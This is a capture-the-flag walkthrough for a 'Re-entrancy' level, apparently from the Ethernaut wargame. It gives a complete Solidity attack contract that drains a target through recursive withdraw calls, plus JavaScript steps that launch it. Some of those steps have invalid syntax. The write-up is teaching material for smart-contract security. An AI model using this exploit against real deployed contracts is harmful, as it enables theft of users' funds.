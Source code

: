 ## 10. Re-entrancy ✅ [Medium]

This level tests understanding of re-entrancy:
- Reentrancy attack is when attacker exploits contract vulnerability to call a function multiple times during execution to gain more benefits.
- Attackers can use reentrancy attack to gain contract control

Attack steps:
1. Write attack contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Reentrance.sol";

contract ReentranceAttack {
    Reentrance public target;
    address public owner;

    constructor(address payable _target) public {
        target = Reentrance(_target);
        owner = msg.sender;
    }

    // Call target contract's donate function
    function donate() public payable {
        target.donate{value: msg.value}(address(this));
    }

    // Launch attack
    function attack(uint256 _amount) public {
        target.withdraw(_amount);
    }

    // Reentry logic
    receive() external payable {
        if (address(target).balance > 0) {
            target.withdraw(msg.value);
        }
    }

    // Withdraw ether from attack contract
    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        payable(owner).transfer(address(this).balance);
    }
}
```
2. Call `donate()` function to send contract balance to attack contract
```js
await contract.donate{value: 1 ether}();
```
3. Call `attack()` function to launch attack
```js
await attackContract.attack(1 ether);
```
